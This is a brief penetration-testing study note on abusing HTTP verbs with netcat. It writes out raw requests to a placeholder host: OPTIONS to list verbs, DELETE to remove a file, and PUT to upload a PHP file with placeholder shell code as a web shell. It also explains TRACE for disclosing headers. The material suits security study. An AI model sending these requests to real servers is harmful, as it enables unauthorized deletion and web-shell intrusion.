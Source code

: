 
### General Notes

> Exploiting [[HTTP]] verbs.
> Check the resulting [[HTTP]] response to see effect of exploitation.
> Done using [[netcat]]
---

### Enumerate available verbs

> Using `netcat`, connect and then send a request using the `options` verb.
```
nc example.site 80
OPTIONS / HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `DELETE`

> Using `netcat`, connect and then send a request using the `delete` verb, with the path to the file specified.
```
nc example.site 80
DELETE /path/to/resource.php HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `PUT`

> Must know the size of the file to be uploaded. Use the `wc -m <filename>` to get size in bytes of the file.

> Using `netcat`, connect and then send a request using the `PUT` verb, with the path to the file specified.
```
nc example.site 80
PUT /payload.php HTTP/1.1
Content-type: text/html
Content-length: <size-in-bytes>

<?php shell-code ?>
```

---

### Exploit `TRACE`

> Used in [[Information Disclosure]].
> The web server responds with the exact request that was sent.
> Can be used to test for the hidden server side [[HTTP]] headers.

---
